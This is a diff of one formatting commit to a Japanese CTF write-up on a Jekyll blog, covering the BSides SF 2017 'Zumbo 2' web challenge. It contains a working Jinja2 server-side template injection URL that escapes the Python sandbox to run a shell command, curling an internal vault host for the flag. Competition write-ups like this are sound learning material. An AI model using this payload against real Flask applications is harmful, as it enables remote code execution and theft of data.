

Before and after one commit to st98/diary, a Jekyll site: the page built from _posts/2017-02-14-bsides-sf-ctf.md, in a window 1280 px wide and 900 px high, scrolled down 7318 px. Shown: the whole window, without its empty margins (272-1007 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded.

Commit message:
ミスを修正

````diff
--- a/_posts/2017-02-14-bsides-sf-ctf.md
+++ b/_posts/2017-02-14-bsides-sf-ctf.md
@@ -247,7 +247,7 @@
 
 ## [Web 100] Zumbo 2
 
-```
+```python
 @app.route('/<path:page>')
 def custom_page(page):
     if page == 'favicon.ico': return ''
@@ -271,7 +271,13 @@
 
 さきほどのコードを見ると、エラーメッセージをそのまま `flask.render_template_string` に投げています。テンプレートのインジェクションができそうです。
 
-過去問を探していると [A python's escape from PlaidCTF jail · @wapiflapi](http://wapiflapi.github.io/2013/04/22/plaidctf-pyjail-story-of-pythons-escape/) という記事を見つけました。これをもとに `http://zumbo-8ac445b1.ctf.bsidessf.net/{{ ().__class__.__base__.__subclasses__()[59]().__repr__.im_func.func_globals['linecache'].os.popen('curl http://vault:8080/flag').read() }}` でフラグが出てきました。
+過去問を探していると [A python's escape from PlaidCTF jail · @wapiflapi](http://wapiflapi.github.io/2013/04/22/plaidctf-pyjail-story-of-pythons-escape/) という記事を見つけました。これをもとに
+
+```
+http://zumbo-8ac445b1.ctf.bsidessf.net/{{ ().__class__.__base__.__subclasses__()[59]().__repr__.im_func.func_globals['linecache'].os.popen('curl http://vault:8080/flag').read() }}
+```
+
+でフラグが出てきました。
 
 ```
 FLAG: BRICK_HOUSE_BEATS_THE_WOLF
````
